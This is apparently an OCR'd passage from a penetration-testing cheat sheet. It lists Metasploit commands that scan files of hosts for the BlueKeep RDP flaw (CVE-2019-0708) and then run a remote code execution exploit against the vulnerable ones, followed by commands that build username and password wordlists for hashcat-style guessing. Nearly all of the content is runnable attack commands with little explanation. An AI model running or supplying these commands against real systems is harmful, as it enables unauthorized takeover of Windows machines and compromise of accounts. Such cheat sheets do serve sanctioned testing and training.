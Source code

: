 

### BlueKeep

**CVE-2019-0708**

Check:

```
msf > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
msf > set RHOSTS file:rdp_hosts.txt
msf > set THREADS 25
msf > run
```

Exploit:

```
msf > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
msf > set RHOSTS file:vuln_rdp_hosts.txt
msf > run
```




## Generate Wordlists



### hashcat

Potentially valid usernames, `John Doe` as an example:

* [https://activedirectorypro.com/active-directory-user-naming-convention/](https://activedirectorypro.com/active-directory-user-naming-convention/)

```
$ cat << EOF >> passwords.txt
johndoe
jdoe
j.doe
doe
EOF
```

Common usernames:

```
$ cat << EOF >> passwords.txt
admin
administrator
root
guest
sa
changeme
password
EOF
```

